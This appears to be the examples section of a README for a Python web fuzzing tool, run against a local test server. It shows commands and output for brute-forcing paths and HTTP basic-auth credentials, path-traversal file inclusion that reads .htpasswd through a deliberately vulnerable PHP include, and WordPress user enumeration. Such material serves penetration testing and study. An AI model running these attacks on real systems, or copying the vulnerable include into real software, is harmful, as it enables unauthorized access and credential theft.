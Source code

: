 ## Examples
### Brute forcing paths
We use a dictionary of file names and hide 404 codes:

    $ cat testdic.txt
    admin
    temp
    sarasasasa
    backdoor
    user
    panel
    aaaaa

    $ python2 popper.py 'http://localhost/poppertest/[file].php' --file testdic.txt --hc 404
    302 8    194      0.000137 http://localhost/poppertest/user.php
    200 7    166      5.3e-05  http://localhost/poppertest/panel.php
    401 57   1539     0.000602 http://localhost/poppertest/admin.php

Hidden: 5


### Brute forcing http user and password
Now we use two payloads, one for users and another for passwords, brute forcing both at the same time. --file arguments will be used in order:

    $ cat userdic.txt
    user
    root
    admin

    $ cat passworddic.txt
    1234
    12345
    admin
    letmein
    toor

    Hidden: 23
    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt
    401 57   1539     0.00254  http://root:12345@localhost/poppertest/admin.php
    401 57   1539     0.001611 http://root:1234@localhost/poppertest/admin.php
    401 57   1539     0.001897 http://root:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001712 http://root:toor@localhost/poppertest/admin.php
    401 57   1539     0.001264 http://user:12345@localhost/poppertest/admin.php
    401 57   1539     0.00077  http://user:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001313 http://user:admin@localhost/poppertest/admin.php
    401 57   1539     0.001513 http://user:1234@localhost/poppertest/admin.php
    401 57   1539     5.6e-05  http://admin:1234@localhost/poppertest/admin.php
    401 57   1539     4.9e-05  http://admin:toor@localhost/poppertest/admin.php
    401 57   1539     6.4e-05  http://admin:admin@localhost/poppertest/admin.php
    401 57   1539     0.005372 http://admin:12345@localhost/poppertest/admin.php
    200 8    175      0.000302 http://admin:letmein@localhost/poppertest/admin.php
    401 57   1539     0.000719 http://user:toor@localhost/poppertest/admin.php
    401 57   1539     0.000617 http://root:admin@localhost/poppertest/admin.php

    Hidden: 0

We can, again, hide uninteresting results:

    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt --hc 401
    200 8    175      0.004078 http://admin:letmein@localhost/poppertest/admin.php

    Hidden: 14


### Brute forcing LFI

    $ cat include.php
    <?PHP include('./'.$_GET['include']);

    $ python2 popper.py 'http://localhost/poppertest/news/include.php?include=[repeat].htpasswd' --repeat 10 ../
    200 11   552      0.000613 http://localhost/poppertest/news/include.php?include=../../../../.htpasswd
    200 11   546      0.001891 http://localhost/poppertest/news/include.php?include=../../../.htpasswd
    200 11   588      0.001274 http://localhost/poppertest/news/include.php?include=../../../../../../../../../../.htpasswd
    200 11   534      0.001067 http://localhost/poppertest/news/include.php?include=../.htpasswd
    200 11   564      0.001231 http://localhost/poppertest/news/include.php?include=../../../../../../.htpasswd
    200 11   570      0.00132  http://localhost/poppertest/news/include.php?include=../../../../../../../.htpasswd
    200 11   582      0.002143 http://localhost/poppertest/news/include.php?include=../../../../../../../../../.htpasswd
    200 9    188      0.004141 http://localhost/poppertest/news/include.php?include=../../.htpasswd
    200 11   576      0.003028 http://localhost/poppertest/news/include.php?include=../../../../../../../../.htpasswd
    200 11   558      3e-05    http://localhost/poppertest/news/include.php?include=../../../../../.htpasswd

There is one request with 9 lines instead of 11. This is the one with the .htpasswd file


### Enumerating wordpress users
Now we will be using [range] to find some numeric ids and --threads 30 to speed up the process. This particular website redirects valid ids to /author/USERNAME

    python2 popper.py 'http://localhost/poppertest/wordpress/?author=[range]' --range 1,1000 --threads 30 --hc 404
    301 11   436      0.360397 http://localhost/poppertest/wordpress/?author=2
    301 11   433      0.357481 http://localhost/poppertest/wordpress/?author=5
    301 11   434      0.375045 http://localhost/poppertest/wordpress/?author=1
    301 11   433      0.631637 http://localhost/poppertest/wordpress/?author=79
    301 11   437      0.595769 http://localhost/poppertest/wordpress/?author=91
    301 11   433      0.632835 http://localhost/poppertest/wordpress/?author=102
    200 375  18685    0.873635 http://localhost/poppertest/wordpress/?author=101
    301 11   442      0.571062 http://localhost/poppertest/wordpress/?author=144
    301 11   433      0.604039 http://localhost/poppertest/wordpress/?author=147
    301 11   433      0.60503  http://localhost/poppertest/wordpress/?author=157
    301 11   434      0.599448 http://localhost/poppertest/wordpress/?author=194
    301 11   433      0.686675 http://localhost/poppertest/wordpress/?author=203
    301 11   433      0.489501 http://localhost/poppertest/wordpress/?author=232
    301 11   434      0.456722 http://localhost/poppertest/wordpress/?author=267
    301 11   435      0.603057 http://localhost/poppertest/wordpress/?author=422
    301 11   433      0.691517 http://localhost/poppertest/wordpress/?author=558
    301 11   434      0.457889 http://localhost/poppertest/wordpress/?author=678
    301 11   434      0.615434 http://localhost/poppertest/wordpress/?author=780
    301 11   438      0.589926 http://localhost/poppertest/wordpress/?author=844

    Hidden: 981


### Other protocols
It may work with other protocols supported by libcurl
    $ python2 popper.py 'ftp://localhost/[file]/' --file testdic
    Giving up on ftp://localhost/qwe/: Server denied you to change to the given directory
    Giving up on ftp://localhost/dddddd/: Server denied you to change to the given directory
    226 1    61       0.18242  ftp://localhost/somefolder/
    Giving up on ftp://localhost/asd/: Server denied you to change to the given directory
    226 182  13521    0.257413 ftp://localhost/otherfolder/

    $ python2 popper.py 'gopher://localhost/1/[file]/' --file testdic 
    0   1    57       0.383794 gopher://localhost/1/asd/
    0   2    167      0.397954 gopher://localhost/1/Internet/
    0   1    60       0.407395 gopher://localhost/1/dddddd/
    0   16   1124     0.400861 gopher://localhost/1/Computers/
    0   1    57       0.4052   gopher://localhost/1/qwe/

